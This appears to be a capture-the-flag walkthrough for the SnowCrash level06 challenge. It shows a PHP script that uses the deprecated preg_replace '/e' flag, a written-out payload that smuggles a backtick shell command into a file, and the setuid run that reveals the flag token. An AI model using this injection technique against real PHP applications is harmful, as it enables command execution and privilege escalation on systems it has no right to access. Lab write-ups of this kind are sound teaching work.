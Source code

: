 In our home directory, we have an executable with extended permissions and a PHP script that reveals what the executable does.


```
level06@SnowCrash:~$ ls -la level06*
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

We can see in the 3rd call to `preg_replace`  the deprecated flag `/e`.

Let's start by creating our file:
``echo '[x {${`getflag`}}' > /tmp/getflag``

Now we just need to run `./level06` with `/tmp/exploit` as an argument:
```
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```